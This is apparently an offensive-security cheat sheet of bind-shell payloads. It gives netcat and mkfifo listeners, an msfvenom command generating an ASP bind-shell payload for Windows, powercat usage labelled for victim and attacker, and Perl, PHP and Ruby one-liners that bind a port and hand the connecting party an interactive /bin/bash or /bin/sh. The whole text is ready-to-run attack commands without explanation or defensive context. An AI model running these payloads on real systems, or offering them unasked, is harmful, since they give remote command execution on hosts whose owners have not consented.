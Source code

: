 Bind Shell
==========

##### Listener


# Linux
nc -nlvp 51337 -e /bin/bash


# OpenBSD:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f

##### Windows


msfvenom -p windows/shell_bind_tcp -b “\x00\x0a\x0d” LHOST=IP LPORT=1337 -f asp > user_TCP_RS.asp


https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002


##### Perl


perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'

##### PHP


php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
 socket_write($cl,$m,strlen($m));}}'

##### Ruby


ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'

